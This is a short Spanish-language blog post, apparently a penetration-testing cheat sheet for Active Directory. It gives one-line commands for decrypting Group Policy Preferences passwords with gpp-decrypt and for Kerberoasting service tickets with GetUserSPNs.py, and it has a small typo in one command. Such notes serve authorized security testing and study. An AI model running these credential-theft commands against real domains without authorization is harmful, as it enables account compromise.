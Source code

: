 ```yaml
---
layout: post
title: Active Directory CheetSheat
tags: [windows, AD]
description: Active Directory CheetSheat
---
```



## Preferencias de directivas de grupo

- Windows Server 2008

### Gpp-Descifrar
 
```
gpp-decrypt <hash>
```

Más información:  
[https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)  
[https://adsecurity.org/?p=2288](https://adsecurity.org/?p=2288)

-----

## kerberoasting attack

**Kerberoasting** es una técnica que permite a un atacante robar el `ticket KRB_TGS`, que está encriptado con RC4, para aplicar el hash de los servicios de aplicación de fuerza bruta para extraer su contraseña.

> Kerberos es para autenticación, no para autorización, esta laguna permite el kerberoasting

```
GetUserSPNs.py <dominio>/<user>:<password>
```

### Obtener el TGS

 ```
 GetUserSPNs.py <dominio>/<user>:<password -request
 ```
 
Más información:
[https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)


